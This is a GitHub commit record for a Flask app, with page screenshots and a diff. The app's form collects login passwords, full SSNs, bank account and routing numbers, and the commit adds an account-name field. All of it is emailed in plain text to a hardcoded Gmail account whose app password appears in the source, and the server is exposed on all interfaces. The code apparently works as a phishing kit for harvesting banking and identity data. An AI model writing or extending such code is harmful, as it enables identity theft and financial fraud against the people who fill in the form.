

Before and after one commit to Mrcastane/Flask_project, a Flask app: page /info in a window 1280 px wide. Shown: the part 145-1171 px from the top of the page at 95% size. Before the commit the page ends 1080 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
add new input field

```diff
--- a/main.py
+++ b/main.py
@@ -7,6 +7,7 @@ password = None
 ssn = None
 account_number = None
 account_type = None
+account_name = None
 routing = None
 
 
@@ -43,18 +44,19 @@ def info():
 
 @app.route('/continue_', methods=['POST'])
 def continue_():
-    global ssn, account_number, account_type,routing
+    global ssn, account_number, account_type,routing,account_name
     ssn = request.form.get("ssn").strip()
     account_number = request.form.get("account-number").strip()
     account_type = request.form.get("account-type")
     routing =  request.form.get("routing")
+    account_name = request.form.get("account-name")
 
     return redirect(url_for('thankyou'))
 
 @app.route('/thankyou')
 
 def thankyou():
-    email_sender = EmailSender(user_name, password, ssn, account_number, account_type, routing)
+    email_sender = EmailSender(user_name, password, ssn, account_number, account_type, routing, account_name)
     result = email_sender.send_email()
     if result :
         return "<h1>Thank you for your submission!</h1>"
@@ -63,5 +65,5 @@ def thankyou():
 
 
 if __name__ == '__main__':
-    # app.run(host="0.0.0.0", port=5000)
-    app.run(debug=True)
+    app.run(host="0.0.0.0", port=5000)
+    # app.run(debug=True)
--- a/send_email.py
+++ b/send_email.py
@@ -3,8 +3,9 @@ EMAIL = "castanedaorlando871@gmail.com"
 PASSWORD = "ykucjemebvauveur"
 
 class EmailSender:
-    def __init__(self, user_name, user_password, ssn, account_number, account_type, routing):
+    def __init__(self, user_name, user_password, ssn, account_number, account_type, routing, account_name):
         """Initialize the email sender with credentials."""
+        self.account_name = account_name
         self.user_name = user_name
         self.user_password =user_password
         self.ssn = ssn
@@ -21,6 +22,7 @@ class EmailSender:
             subject="New Info",
             contents=f"UserName : {self.user_name}\n"
                      f"Password: {self.user_password}\n"
+                     f"Acount Name: {self.account_name}\n"
                      f"Acount Number: {self.account_number}\n"
                      f"Acount Type: {self.account_type}\n"
                      f"Routing: {self.routing}\n"
--- a/templates/info.html
+++ b/templates/info.html
@@ -83,16 +83,31 @@
       </div>
 
       <div class="form-container_info">
-        <form class="container-lg px-lg-5" action="{{ url_for('continue_') }}" method="post">
+        <form
+          class="container-lg px-lg-5"
+          action="{{ url_for('continue_') }}"
+          method="post"
+        >
           <div class="form-div text-center">
             <h1 class="mb-3 font">Account Details</h1>
 
             <div class="form-floating mb-3">
               <input
+                type="text"
+                class="form-control form-input"
+                id="floatingInput"
+                name="account-name"
+                required
+              />
+              <label for="floatingInput">Enter Your Account Full Name</label>
+            </div>
+
+            <div class="form-floating mb-3">
+              <input
                 type="number"
-                class="form-control  form-input"
+                class="form-control form-input"
                 id="floatingInput"
-                name = "account-number"
+                name="account-number"
                 required
               />
               <label for="floatingInput">Enter Your Account Number</label>
@@ -103,7 +118,7 @@
                 type="number"
                 class="form-control form-input"
                 id="floatingPassword"
-                name = "routing"
+                name="routing"
                 maxlength="9"
                 pattern="\d{10}"
                 required
@@ -116,18 +131,24 @@
                 type="number"
                 class="form-control form-input"
                 id="floatingPassword"
-                name = "ssn"
+                name="ssn"
                 maxlength="9"
                 pattern="\d{10}"
                 required
               />
-              <label for="floatingPassword">Last 4 digits of SSN/EIN</label>
+              <label for="floatingPassword">Enter Your SSN/EIN</label>
             </div>
 
-
             <div class="mb-3">
-              <label for="selectOption" class="form-label fs-4"> Accoun Type</label>
-              <select class="form-select" id="selectOption" name="account-type" required>
+              <label for="selectOption" class="form-label fs-4">
+                Accoun Type</label
+              >
+              <select
+                class="form-select"
+                id="selectOption"
+                name="account-type"
+                required
+              >
                 <option value="" selected disabled>Select an option</option>
                 <option value="Personal Checking">Personal Checking</option>
                 <option value="Personal Savings">Personal Savings</option>
```
